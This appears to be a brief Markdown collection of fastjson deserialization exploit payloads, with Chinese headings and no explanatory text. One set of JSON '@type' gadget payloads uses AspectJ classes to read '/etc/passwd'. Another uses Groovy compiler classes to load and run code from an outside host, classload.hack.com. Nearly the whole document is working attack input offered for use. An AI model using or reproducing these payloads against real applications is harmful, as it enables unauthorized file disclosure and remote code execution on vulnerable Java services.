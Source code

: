 #### 配合 aspectj 读文件
```json
{
    "@type":"java.lang.Exception",
    "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
}
```

```java

{
    "@type":"java.lang.Class",
    "val":{
        "@type":"java.lang.String"{
        "@type":"java.util.Locale",
        "val":{
            "@type":"com.alibaba.fastjson.JSONObject",{
                "@type":"java.lang.String"
                "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException",
                "newAnnotationProcessorUnits":[{}]
            }
        }
    }
    }
}
```
```java
{
    "x":{
        "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
        "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
        "fileName":"/etc/passwd"
    }
}
```
#### 配合groovy RCE
```java
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
```

```java
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://classload.hack.com/"
    }
}
```
